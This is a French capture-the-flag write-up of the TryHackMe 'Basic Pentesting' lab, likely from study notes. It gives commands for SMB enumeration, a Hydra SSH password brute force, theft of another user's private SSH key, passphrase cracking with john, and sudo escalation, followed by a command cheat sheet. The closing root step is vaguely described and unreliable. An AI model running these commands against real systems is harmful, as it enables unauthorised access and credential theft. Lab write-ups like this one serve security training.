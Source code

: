 ```yaml
---
tags:
  - plateforme/thm
  - os/linux
  - status/completed
difficulty: easy
ip: 10.10.10.25
url: https://tryhackme.com/room/basicpentestingjt
creation_date: 2025-10-27
completion_date: 2025-10-27
---
```

# Basic Pentesting - TryHackMe

## 📝 Description & Objectifs
Room d'introduction au pentesting couvrant :
- Énumération de services
- Exploitation SMB
- Cracking de hash
- Escalade de privilèges via SSH

---

## 🕵️‍♂️ Phase 1 : Énumération & Reconnaissance

### 🗺️ Scan Nmap
```bash
nmap -sV -sC -oN nmap_results.txt 10.10.10.25
```

**Résultats :**
- Port 22 (SSH) - OpenSSH 7.2p2
- Port 80 (HTTP) - Apache 2.4.18
- Port 139/445 (SMB) - Samba 4.3.11
- Port 8009 (AJP) - Apache Jserv
- Port 8080 (HTTP) - Apache Tomcat

### 🌐 Énumération Web
```bash
gobuster dir -u http://10.10.10.25 -w /usr/share/wordlists/dirb/common.txt
```

**Découvertes :**
- `/development` - Notes de développement exposées

### 📁 Énumération SMB
```bash
enum4linux -a 10.10.10.25
smbclient -L //10.10.10.25 -N
```

**Partages trouvés :**
- `Anonymous` - Accessible sans mot de passe
- Fichiers : `staff.txt` (liste d'utilisateurs)

---

## 💥 Phase 2 : Exploitation

**Vecteur d'attaque :** [[SMB Anonymous Access]] + [[SSH Bruteforce]]

### Étape 1 : Récupération d'informations
```bash
smbclient //10.10.10.25/Anonymous -N
get staff.txt
```

**Utilisateurs identifiés :**
- jan
- kay

### Étape 2 : Bruteforce SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.25
```

**Résultat :** Mot de passe trouvé : `armando`

### Étape 3 : Connexion SSH
```bash
ssh jan@10.10.10.25
# Password: armando
```

✅ **Accès utilisateur obtenu**

---

## 🚀 Phase 3 : Élévation de Privilèges

### Énumération Post-Exploitation
```bash
id
sudo -l
find / -perm -4000 2>/dev/null
ls -la /home
```

**Découverte :** Clé SSH privée de kay dans `/home/kay/.ssh/id_rsa`

### Exploitation
```bash
# Copie de la clé privée
cat /home/kay/.ssh/id_rsa
# Sauvegarde locale
chmod 600 kay_id_rsa

# La clé est protégée par passphrase
ssh2john kay_id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Passphrase trouvée :** `beeswax`

```bash
ssh -i kay_id_rsa kay@10.10.10.25
# Passphrase: beeswax

# Vérification des privilèges
sudo -l
# kay peut exécuter /usr/bin/pass en tant que root

# Exploitation
sudo /usr/bin/pass
```

✅ **Root obtenu**

---

## 💡 Takeaways & Commandes Utiles

**Leçons apprises :**
1. Toujours énumérer SMB - les partages anonymes contiennent souvent des infos sensibles
2. Les clés SSH peuvent être crackées avec `ssh2john` + `john`
3. Vérifier les permissions sur les fichiers des autres utilisateurs

**Commandes clés :**
```bash
# Énumération SMB complète
enum4linux -a <IP>
smbclient -L //<IP> -N

# Crack de clé SSH
ssh2john id_rsa > hash.txt
john --wordlist=rockyou.txt hash.txt

# Énumération post-exploit
find / -perm -4000 2>/dev/null  # SUID
getcap -r / 2>/dev/null          # Capabilities
```

**Outils utilisés :**
- [[Nmap]]
- [[Gobuster]]
- [[enum4linux]]
- [[Hydra]]
- [[John the Ripper]]

**Vulnérabilités rencontrées :**
- [[SMB Anonymous Access]]
- [[Weak SSH Credentials]]
- [[Sudo Misconfiguration]]
